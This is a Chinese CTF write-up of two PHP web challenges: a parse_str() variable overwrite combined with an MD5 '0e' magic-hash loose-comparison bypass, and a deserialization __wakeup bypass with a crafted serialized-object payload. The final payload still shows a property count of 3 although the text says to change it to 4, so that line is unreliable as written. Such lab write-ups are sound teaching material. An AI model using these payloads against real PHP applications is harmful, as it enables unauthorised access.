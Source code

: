 #### MD5

`parse_str()`函数

parse_str(string,array)

- string 必需。规定要解析的字符串。
- array 可选。规定存储变量的数组的名称。该参数指示变量将被存储到数组中。

 parse_str()中如果未设置 array 参数，则由该函数设置的变量将覆盖已存在的同名变量。

![](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120200832785.png)  

要求我们提交id,然后GET方式获取到参数值，再经过parse_str()函数进行解析，将键名转为变量名，键值转为变量值，然后要输出flag还有一层条件，a[0]的值不能等于240610708但是要与其经过md5加密之后的值相等，发现240610708加密之后是以0e开头的，所以只有a[0]的值加密之后能以0e开头，条件就成立，这是利用了md5的一个缺陷


payload  

?id=a[0]=s1836677006a

![image-20221120201234318](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120201234318.png)

#### easy unserialize

是一个简单的反序列化+绕过wakeup

用这段php代码构造反序列化的文本

```php
<?php
class CNSS
{
    public $username = 'admin';
    private $i_want2_say = 'rzpt';
    protected $password  = 'ctf';
}
$a = new CNSS();
echo serialize($a);
?>

```

![image-20221120203914850](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120203914850.png)

```
O:4:"CNSS":3:{s:8:"username";s:5:"admin";s:17:" CNSS i_want2_say";s:4:"rzpt";s:11:" * password";s:3:"ctf";}
```

private属性序列化的时候格式是%00类名%00成员名

protect属性序列化的时候格式是%00*%00成员名

将3改为4绕过wakeup 

payload为 

```
O:4:"CNSS":3:{s:8:"username";s:5:"admin";s:17:"%00CNSS%00i_want2_say";s:4:"rzpt";s:11:"%00*%00password";s:3:"ctf";}
```
